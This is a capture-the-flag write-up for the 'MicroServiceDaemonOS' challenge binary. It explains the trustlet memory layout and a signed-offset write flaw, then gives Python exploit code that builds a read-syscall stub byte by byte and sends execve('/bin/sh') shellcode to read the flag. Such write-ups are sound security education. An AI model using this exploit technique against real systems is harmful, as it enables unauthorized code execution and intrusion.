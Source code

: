 # MicroServiceDaemonOS

We are provided with a 64 bit binary that allows the user to create up to 10 trustlets. Each truslet has three empty memory region already mapped: two for the code of two different functions and one for storing data. 

The struct of a trustlet is so the following:

```C
struct trustlet
{
  BYTE first_function[0x4000];
  BYTE second_function[0x4000];
  BYTE data[0x4000000];
  BYTE padding[0x3ff8000];
};
```
Trustlet's memory region are used starting from lower addresses to higher addresses.

![Mapping](images/map.png)

Thus, the first trustlet will use the region at 0x155504f3a000, the second the region at 0x15550cf3a000 and so on and so forth.

As you can see, the first two sections are `rwx` while the third is just `rw`. Moreover, before executing a trustlet's function, the binary changes the permission of all of the other trustlet's functions to `rx`, but not the functions of the trustlet is getting executed. This is interesting and could be exploited.

## The service

The hardest part of the challenge, in my opinion, was reversing it. It doesn't perform intuitive or useful tasks, so I spent a lot of time understanding how it works. Basically, we have two type of trustlets, type `1` and type `0`, each of which has two functions, the first is called `s` and the second is called `g`. Everytime the user creates a new trustlet, a special data structure on the stack is updated and the code of the functions `s` and `g` is copied in the first two sections. The special structure on the stack keeps track of the section's pointers of each trustlet and other information.

```C
struct trustlet_ref
{
  void* second_function_address;
  void* first_function_address;
  void* data_address;
  BYTE data[0x7ff7];
  __int64 type;
};

struct trustlets_refs
{
  BYTE count;
  BYTE padding[7];
  trustlet_ref trustlet[10];
};
```
Finally, we have to understand how these functions work:
* type `0` function `g`: it gets two value from the user: `count` and `offset`. Starting from the data section of the trustlet(third section) plus the `offset` left shifted by 12, it hashes 0x1000 bytes times `count` with a random but constant value. The 4 byte digest of every 0x1000 bytes is stored sequentially at data section plus 0x7FD8000. The entire digest is printed to the user.
* type `0` function `s`: it sets to one up to 0x3E8 byte, equal to zero, of the data of the `trustlet_ref` per time.
* type `1` function `s`: it gets an `offset` and an `input` of `size` characters. Then, it retrieves a random but again constant value, left shifted by 12, and it sums this value to the data section of the trustlet along with `offset`. Finally, it writes, at this last computed address, an hash of a random(this time not constant) value along with the `input`. The entire digest is printed to the user.
* type `1` function `g`: it xors 64 random bytes among them. The output is printed to the user.

## Vulnerability

The vulnerability I spotted and used is the signed check of `offset` in trustlet type `1`. This value can be negative and so it is possible to write in previous sections: functions code and trustlet's data section of previous(in memory) trustlets. However, this function writes in a random position between 0 and 0x7FF7000 starting from the current data section plus the `offset`.

## Exploit

We first create two trustlets: the first of type `0` and the second of type `1`

```python
addTrustlet(c, 0)
addTrustlet(c, 1)
```

the first trustlet is at 0x155504f3a000 and the second at 0x15550cf3a000. Now, we execute the `s` function of second trustlet with an `offset` which is the difference between the data sections of the two trustlets. By doing so, is just like calling this function in the data section of the previous trustlet(type `0`).

```python
startTrustletOne(c, 1, 's', 4, -134217728, 'AAAA')
```

At this point we wrote 4 bytes in a random position of the data section of the first trustlet. We would like to know which is the offset from the base address of the data section in order to know exactly where we are writing with the second trustlet. We achieve this with the function `g` of the first trustlet. 4 bytes of the first data section are hashed with values different from zero, so with the function we read the entire data section and compute the random offset.

```python
    val1 = startTrustletZero(c, 0, 'g', 0, 1)
    val2 = startTrustletZero(c, 0, 'g', 1, 1)
    if val1 != val2:
        print 'Unlucky bro!'
        exit()
    val = startTrustletZero(c, 0, 'g', 2, 32726)

    # Find the random index
    random = 2
    for i in range(0, len(val), 4):
        if val[i : i + 4] != val1:
            break
        random += 1
    print 'Random index is: ' + random
```

We know where the second trustlet writes random stuff. The best idea I had was to write a shellcode in the second function of the second trustlet. Why this function? Because the functions of the first trustlet in not writable and the first function of the second trustlet is the one that writes random stuff, so in use. Given that are random values, we can't write a long shellcode. There are 2 register which contains useful data: `rax` contains the address of the function is getting executed and `rdx` contains 0x40. The shortes shellcode I figured out is the following:

```assembly
xor edi, edi
mov rsi, rax
xor eax, eax
syscall
```

which performs a read in the function that is getting executed. Thus, the next step is to write the shellcode in the second function of the second trustlet, generating randomly one byte at a time.

```python
    offset = 0x4000 + (random << 12)

    # Writing in second function a shellcode randomly x)
    instructions = ['xor edi, edi', 'mov rsi, rax']
    print 'Instructions to write: ' + str(instructions)
    finished = False
    while not finished:
        rand = startTrustletOne(c, 1, 's', 4, -offset, 'AAAA')
        if len(rand) > 0:
            for inst in instructions:
                if rand[0] == asm(inst)[0]:
                    print 'Writing ' + str(inst) + '...'
                    asm_instr = asm(inst)
                    offset -= 1
                    j = 1
                    while j < len(asm_instr):
                        rand = startTrustletOne(c, 1, 's', 4, -offset, 'AAAA')
                        if len(rand) > 0 and rand[0] == asm_instr[j]:
                            offset -= 1
                            j += 1
                    print 'Done'
                    if inst == 'mov rsi, rax':
                        instructions.remove('mov rsi, rax')
                        print 'Appended: xor eax, eax'
                        instructions.append('xor eax, eax')
                    elif inst == 'xor edi, edi':
                        instructions.remove('xor edi, edi')
                    elif inst == 'xor eax, eax':
                        instructions.remove('xor eax, eax')
                    elif inst == 'syscall':
                        print 'Appended: syscall'
                        finished = True
                    if len(instructions) == 0:
                        instructions.append('syscall')
                    print 'Instructions left: ' + str(instructions)
```

And finally, the last step, is calling the second function which performs the read we just created. What to write? The shellcode of execve("/bin/sh", NULL, NULL). Moreover, we have to insert 0xb random characters before the shellcode because the next instructions is 0xb bytes after the address of the read.

```python
    startTrustletOne(c, 1, 'g') 
    c.sendline('\x90' * 0xb + asm(shellcraft.amd64.linux.sh()))
    c.sendline('cat flag')
    c.interactive()
```

## Flag

`CTF{TZ-1n_us3rspac3-15-m3ss-d0nt-y0u-th1nk_s0?}`